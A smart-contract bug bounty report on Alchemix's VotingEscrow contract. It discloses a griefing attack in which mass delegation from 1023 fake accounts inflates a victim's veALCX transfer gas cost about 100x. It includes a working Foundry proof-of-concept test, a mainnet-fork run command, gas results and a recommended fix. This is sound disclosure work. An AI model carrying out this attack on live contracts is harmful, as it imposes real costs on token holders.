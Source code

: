 
# Griefing Attack using `delegate` will expose User to `100x` Cost to transfer tokens

Submitted on Sat May 18 2024 11:34:53 GMT-0400 (Atlantic Standard Time) by @Breeje for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31410

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

Currently, `MAX_DELEGATES` is set to `1024`, opening up a Griefing Attack Vector that can make it `100x` more expensive for users to transfer tokens.

## Vulnerability Details

Any user can delegate the balance of the locked NFT amount to anyone by calling the `delegate` function:

```solidity

    function delegate(address delegatee) public {
        require(delegatee != address(0), "cannot delegate to zero address");
        return _delegate(msg.sender, delegatee);
    }

```


As the delegated tokens are maintained in an array that can be vulnerable to DOS attack, the `VotingEscrow` has a safety check of `MAX_DELEGATES = 1024` preventing an address from having a huge array.

```solidity

    /// @notice Maximum number of delegates a token can have
    uint256 public constant MAX_DELEGATES = 1024; // avoid too much gas

```

```solidity

    require(dstTokensOld.length + 1 <= MAX_DELEGATES, "dst would have too many tokenIds");

```

Delegating from an address with a shorter token list to one with a longer list is cheaper. An attacker can create a new address, lock tokens, and delegate to the victim's address, significantly increasing the gas cost for the victim to transfer `veALCX` tokens.

In the current implementation, it costs users more than 23M gas to transfer a `veALCX` token when there are 1023 delegates (see PoC for details). 

Although this won't cause a DoS due to Ethereum's gas limit of 30M, but it will increase the gas cost for users by **100x**.

## Impact Details

Griefing Attack exposes users to a `100x` increase in the cost of transferring tokens.

## Recommendation

While testing, I found that Keeping `MAX_DELEGATES` value to `128` will max cost User close to 3M Gas, around `10x` the normal cost. This can provide a balance between offering delegation and protecting users from a Griefing Attack that could increase their costs by `100x`.
        
## Proof of concept
## Proof of Concept

#### Test Code

Add the following test function in `VotingEscrow.t.sol` test.

```solidity

    function testDelegateLimitAttack() public {

        // 1. Create Lock
        deal(bpt, address(this), TOKEN_1M);
        IERC20(bpt).approve(address(veALCX), TOKEN_1M);
        uint256 tokenId = veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
        
        // 2. Have 1023 Fake Accounts which delegates to this address.
        for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + i));
            deal(bpt, fakeAccount, TOKEN_1);
            vm.startPrank(fakeAccount);
            IERC20(bpt).approve(address(veALCX), TOKEN_1);
            veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
            veALCX.delegate(address(this));
            vm.stopPrank();
        }
        
        hevm.warp(block.timestamp + 3 * ONE_WEEK + nextEpoch);

        uint256 lockEnd = veALCX.lockEnd(tokenId);
        hevm.warp(block.timestamp + lockEnd);
        
        veALCX.startCooldown(tokenId);
        hevm.warp(block.timestamp + nextEpoch);

        // 3. Check gas used to transfer the token
        uint initialGas = gasleft();
        veALCX.safeTransferFrom(veALCX.ownerOf(tokenId), beef, tokenId);
        uint gasUsed = initialGas - gasleft();
        console2.log("Gas Used for 1023 Delegate = ", gasUsed);
    }

```

To compare gas usage with 1 delegate, run the following:

```solidity

    function testDelegateLimitAttack() public {

        // 1. Create Lock
        deal(bpt, address(this), TOKEN_1M);
        IERC20(bpt).approve(address(veALCX), TOKEN_1M);
        uint256 tokenId = veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
        
        // 2. Have 1023 Fake Accounts which delegates to this address.
        // for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + 1));
            deal(bpt, fakeAccount, TOKEN_1);
            vm.startPrank(fakeAccount);
            IERC20(bpt).approve(address(veALCX), TOKEN_1);
            veALCX.createLock(TOKEN_1, 3 * ONE_WEEK, false);
            veALCX.delegate(address(this));
            vm.stopPrank();
        // }
        
        hevm.warp(block.timestamp + 3 * ONE_WEEK + nextEpoch);

        uint256 lockEnd = veALCX.lockEnd(tokenId);
        hevm.warp(block.timestamp + lockEnd);
        
        veALCX.startCooldown(tokenId);
        hevm.warp(block.timestamp + nextEpoch);

        // 3. Check gas used to transfer the token
        uint initialGas = gasleft();
        veALCX.safeTransferFrom(veALCX.ownerOf(tokenId), beef, tokenId);
        uint gasUsed = initialGas - gasleft();
        console2.log("Gas Used for 1 Delegate = ", gasUsed);
    }

```

#### Running the code

Use the following command to run the code:

```powershell

  forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/${ALCHEMY_API} --match-test testDelegateLimitAttack --fork-block-number 17133822 -vvv

```

#### Result

Gas required to transfer token with 1023 delegates:

```powershell

    Running 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
    [PASS] testDelegateLimitAttack() (gas: 12606294184)
    Logs:
      Gas Used for 1023 Delegate =  23442846

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.26s

    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

Gas required to transfer token with 1 delegate:

```powershell

    Running 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
    [PASS] testDelegateLimitAttack() (gas: 2636939)
    Logs:
      Gas Used for 1 Delegate =  266145

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 20.40ms

    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

#### Analysis of Result

* Gas required to transfer token with 1 delegate: 266k Gas

* Gas required to transfer token with 1023 delegates: 23M Gas

Given Ethereum's gas limit of 30M, the transfer function won't cause a DoS, but the gas cost can be increased by almost `100x` through this Griefing Attack.

As suggested in recommendation: By setting `MAX_DELEGATES` to 128, the gas cost required was 3.1M, close to `10x` the normal cost, striking a balance between providing the delegation feature and protecting users from this Griefing Attack.